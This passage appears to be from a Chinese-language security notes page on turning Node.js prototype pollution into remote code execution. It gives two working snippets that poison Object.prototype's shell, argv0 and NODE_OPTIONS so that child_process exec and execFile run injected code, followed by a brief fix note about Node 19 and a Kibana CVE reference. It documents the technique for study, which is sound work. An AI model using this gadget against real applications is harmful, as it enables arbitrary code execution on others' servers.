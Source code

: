 ```js
const { exec } = require('child_process');
p = {}
p.__proto__.shell = "/proc/self/exe" //You need to make sure the node executable is executed
p.__proto__.argv0 = "console.log(require('child_process').execSync('touch success').toString())//"
p.__proto__.NODE_OPTIONS = "--require /proc/self/cmdline"
var proc = exec('ls');
```

* `execFile`

```js
const { execFile } = require('child_process');
p = {}
p.__proto__.shell = "/proc/self/exe" //You need to make sure the node executable is executed
p.__proto__.argv0 = "console.log(require('child_process').execSync('touch success').toString())//"
p.__proto__.NODE_OPTIONS = "--require /proc/self/cmdline"
var proc = execFile('/root/node/bin/node');
```

`execFile`有点不同，得确保执行的是node命令

# 0x03 Fix

貌似Node19之后不再用`options = {}`，那么`options`的原型就不是`Object`，也就污染不了了

![image-20230809105429258](./../.gitbook/assets/image-20230809105429258.png)

# Ref

https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/?ref=gusralph.info